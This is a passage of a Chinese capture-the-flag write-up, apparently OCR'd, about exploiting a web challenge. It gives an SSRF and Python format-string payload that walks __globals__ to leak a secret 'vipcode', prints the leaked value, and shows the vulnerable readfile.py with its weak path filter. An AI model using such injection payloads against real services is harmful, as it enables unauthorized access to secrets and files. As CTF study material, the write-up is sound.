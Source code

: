 存用
```http
/?url=http://localhost:8080/read/file={file.__class__.__init__.__globals__[vip].__init__.__globals__}%26vipcode={file}&head=\&begin=%s%
```
可读取到vipcode的值
```http
'vipcode': 'uJvFXyqiHnztNQBU10TYkepKjAh7xVMfmgdS4G9r5sWa6loL
```
有了vipcode可以读取源码和列目录，知道flag在`/fl4g_1s_h3re_u_wi11_rua`里，但是读不了，于是读取项目代码，如下：

/app/base/readfile.py
```python
from .vip import vip
import re
import os


class File:
    def __init__(self,file):
        self.file = file

    def __str__(self):
        return self.file

    def GetName(self):
        return self.file


class readfile():

    def __str__(self):
        filename = self.GetFileName()
        if '..' in filename or 'proc' in filename:
            return "quanbumuda"
        else:
            try:
                file = open("/tmp/" + filename, 'r')
                content = file.read()
                file.close()
                return content
            except:
                return "error"

    def __init__(self, data):
        if re.match(r'file=.*?&vipcode=.*?',data) != None:
            data = data.split('&')
            data = {
                data[0].split('=')[0]: data[0].split('=')[1],
                data[1].split('=')[0]: data[1].split('=')[1]
            }
            if 'file' in data.keys():
                self.file = File(data['file'])

            if 'vipcode' in data.keys():
                self.vipcode = data['vipcode']
            self.vip = vip()


    def test(self):
        if 'file' not in dir(self) or 'vipcode' not in dir(self) or 'vip' not in dir(self):
            return False
        else:
            return True

```